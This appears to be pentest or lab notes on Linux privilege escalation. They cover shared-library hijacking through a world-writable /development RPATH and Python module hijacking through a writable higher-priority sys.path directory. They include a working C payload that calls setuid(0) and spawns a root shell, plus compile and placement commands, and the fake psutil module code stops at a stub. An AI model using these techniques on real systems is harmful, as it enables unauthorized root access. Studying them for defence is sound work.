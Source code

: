 ```
readelf -d payroll  | grep PATH
```
The configuration allows the loading of libraries from the /development folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in /development, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).
We can copy an existing library to the development folder. Running ldd against the binary lists the library's path as /development/libshared.so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named dbquery. We can compile a shared object which includes this function.
1. create file called src.c
```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
printf("Malicious library loaded\n");
setuid(0);
system("/bin/sh -p");
}
```
```
gcc src.c -fPIC -shared -o /development/libshared.so
```
```
./payroll
```
# Library Path
## PYTHONPATH Listing
```
python3 -c 'import sys; print("\n".join(sys.path))'
```
The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.
We must have write permissions to one of the paths having a higher priority on the list.
### Taking the example of psutil (previously)
### Psutil Default Installation Location
```
pip3 show psutil
```
From this example, we can see that psutil is installed in the following path: /usr/local/lib/python3.8/dist-packages. From our previous listing of the PYTHONPATH variable, we have a reasonable amount of directories to choose from to see if there might be any misconfigurations in the environment to allow us write access to any of them.
After checking all of the directories listed, it appears that /usr/lib/python3.8 path is misconfigured in a way to allow any user to write to it. Cross-checking with values from the PYTHONPATH variable, we can see that this path is higher on the list than the path in which psutil is installed in
In order to get to this point, we need to create a file called psutil.py containing the contents listed above in the previously mentioned directory. It is very important that we make sure that the module we create has the same name as the import as well as have the same function with the correct number of arguments passed to it as the function we are intending to hijack
Hijacked Module Contents - psutil.py 
CREATED inside a directory (where we have write privilegees) that is called before the actual path from pip3 show psutil
```
#!/usr/bin/env python3

import os

def virtual_memory():
```